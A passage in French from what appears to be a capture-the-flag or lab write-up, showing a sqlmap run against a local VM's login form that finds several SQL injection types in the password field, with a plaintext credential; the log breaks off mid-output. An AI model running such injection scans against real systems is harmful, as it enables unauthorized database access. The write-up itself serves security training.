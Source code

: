 Sur le site il y a une fonctionnalité d'upload présente mais cette dernière semble refusée pour l'utilisateur `alamo` : on obtient un message d'erreur indiquant que les uploads vers le home de l'utilisateur sont interdits.

Sans doute que c'est actif pour d'autres utilisateurs. On peut bien sûr sortir sqlmap pour aller fouiller dans la base de données :

```shellsession
$ python sqlmap.py -u "http://192.168.242.135/index.php?page=login.php" --data "user_name=alice&password=Letm3in&Submit_button=Submit" -p password --dbms mysql
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.11.7#dev}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 16:12:50 /2022-12-04/

[16:12:50] [INFO] testing connection to the target URL
[16:12:50] [INFO] checking if the target is protected by some kind of WAF/IPS
[16:12:51] [WARNING] reflective value(s) found and filtering out
[16:12:51] [INFO] testing if the target URL content is stable
[16:12:51] [INFO] target URL content is stable
[16:12:51] [INFO] heuristic (basic) test shows that POST parameter 'password' might be injectable (possible DBMS: 'MySQL')
[16:12:51] [INFO] heuristic (XSS) test shows that POST parameter 'password' might be vulnerable to cross-site scripting (XSS) attacks
[16:12:51] [INFO] testing for SQL injection on POST parameter 'password'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[16:13:10] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[16:13:10] [INFO] POST parameter 'password' appears to be 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)' injectable (with --string="Bad")
[16:13:10] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
--- snip ---
[16:13:10] [INFO] POST parameter 'password' is 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)' injectable 
[16:13:10] [INFO] testing 'MySQL inline queries'
--- snip ---
[16:13:20] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (SLEEP)'
[16:14:20] [INFO] POST parameter 'password' appears to be 'MySQL >= 5.0.12 OR time-based blind (SLEEP)' injectable 
[16:14:20] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[16:14:20] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[16:14:20] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[16:14:20] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[16:14:20] [INFO] target URL appears to have 4 columns in query
[16:14:20] [INFO] POST parameter 'password' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[16:14:20] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'password' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 144 HTTP(s) requests:
---
Parameter: password (POST)
    Type: boolean-based blind
```